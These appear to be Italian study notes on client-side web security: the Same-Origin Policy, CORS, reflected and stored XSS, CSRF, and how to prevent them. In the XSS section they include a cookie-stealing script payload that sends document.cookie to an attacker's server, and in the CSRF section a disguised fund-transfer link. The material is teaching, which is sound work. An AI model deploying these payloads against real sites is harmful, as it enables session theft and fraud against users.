



# Web Security 3

## Client-Side Security

E' una branca della web security, che ha come obiettivo rendere sicure le pagine web (frontend).
Le pagine web sono scritte in un linguaggio di markup HTML, ma possono eseguire javascript che consente di manipolare dati e pagine (Document Object Model).
Le pagine possono gestire molti dati:

- Dati privati dell'utente.
- Token di sicurezza generati.
- Pannelli di controllo per la gestione di una applicazione associati ad un account admin.

I browser salvano tutti i cookie associati ad un dominio, quindi se evil.com fa una richiesta a good.com può prelevare tutti i nostri dati.

Per questo nasce la Same-Origin Policy SOP, ogni script caricato in un origin può accedere ai dati di una risorsa esterna se e solo se l'origine è la stessa.
L'origine diventa un perimetro che va a salvare i dati privati in modo tale che non vengano acceduti da altre pagine malevole.
L'origine è composta da protocollo, hostname e porta. Sottodomini diversi non vengono considerati come stessa origin.

Cross-Origin Resource Sharing, è un modo per i siti web di consentire di condividere le risorse da/verso altri domini, è una sorta di contratto.

## XSS Cross-Site Scripting

Una vulnerabilità tra le più utilizzate in ambito web, è interessante come un utente malintenzionato di mascherarsi da utente vittima e eseguire qualsiasi operazione che l'utente possa eseguire (caso più pericoloso se è un admin). Così facendo rompono la SOP.
Questo si effettua attraverso l'iniezione di codice malevolo javascript che viene eseguito all'interno del browser della vittima.
Le azioni malevoli eseguibili con questa tecnica sono le seguenti:

- Rubare i cookie di sessione
- Rubare informazioni presenti nelle varie pagine

Come prevenire un attacco?
L'attenzione va posta nella sanificazione degli input.
Un modo veloce può essere quello di eseguire un HTML-encoded quindi caratteri come <> vengono rappresentati come &lt; &gt; &quot;

Ogni linguaggio ha le proprie precauzioni per le sanificazioni, con funzioni fatte a posta.

Un secondo modo per evitare attacchi di XSS sono i template, all'interno del template vengono inseriti i dati come variabili sicure.

### Reflected XSS

Un attacco riflesso è quando un backend riflette l'input dell'utente come output in una pagina senza essere sanificato.
Questo genera una pagina non sicura.
Se noi inseriamo tag di script, quest'ultimi verranno eseguiti nella pagina dell'utente.

Abbiamo un attaccante che invia a un utente un link malevolo, l'utente clicca su questo link ed accede a questa pagina. Eseguendo questo script malevolo va ad inviare i suoi dati all'attaccante.


Per rubare i cookie:

```javascript
<script>document.location = 'server-nostro?cookie='+document.cookie</script>
```

https://webhook.com ci consente di creare un endpoint temporaneo.

### Stored XSSs

Questo tipo di attacco non richiede una interazione da parte dell'utente perchè è un attacco di tipo persistente.
Lo script malevolo è interno alla pagina, quindi chiunque accede a quella pagina esegue il codice malevolo.
L'attacco malevolo potrebbe essere salvato ad esempio all'interno di un database.

Un tipico esempio è una sessione di commenti di un blog. Se l'utente inserisce un commento e non avviene la sanificazione, quando viene renderizzato dalla pagina viene anche eseguito, di conseguenza può essere molto prelevare tutti i cookie di tutti gli utenti.



## CSRF Cross-Site Request Forgery

Avviene ogni volta che una mail, un sito, un blog vanno ad eseguire delle azioni che in realtà pericolose in genere è sempre un link, l'utente è già autenticato.

Avviene solo per determinate azioni a differenza del XSS, e non si può ottenere una risposta a differenza di XSS, viene eseguita una richiesta.

Esempio immaginiamo una banca che ogni volta che esegue una transazione genera un link simile al seguente: http://bank.site/transact?to=user2&money=1000


Viene quindi inviata la richiesta per trasferire i fondi alla vittima, il nostro utente clicca sul link e da l'autorizzazione affinchè avvenga il trasferimento di denaro che viene inviato all'utente malevolo.
http://bank.site/transact?to=attacker&money=1000

Ovviamente il link non verrà mostrato in chiaro, verrà nascosto ad esempio all'interno di un bottone:

```html
<a href="http://bank.site/transact?to=attacker&money=1000"
  >Clicca qui per vincere</a
>
```

Affinchè un attacco CSRF sia possibile devono essere presenti tre condizioni chiave:

- Un'azione pertinente (di interesse per l'attaccante)
- Gestione della sessione basata su cookie
- Nessun parametro non prevedibile nella richiesta

Metodi per prevenire:

- Comunicazione stateful: per ogni azione pericolosa viene generato un token randomico validato dal backend.
- La decisione di condividere o no i cookie è basata sui cookie, con il concetto di parties:
  - Same Party: l'origine è la stessa -> modalità STRICT
  - First Party site: l'origine differisce solo per il sottodominio -> modalità LAX
  - Third Party site: L'origine è completamente differente -> modalita NONE
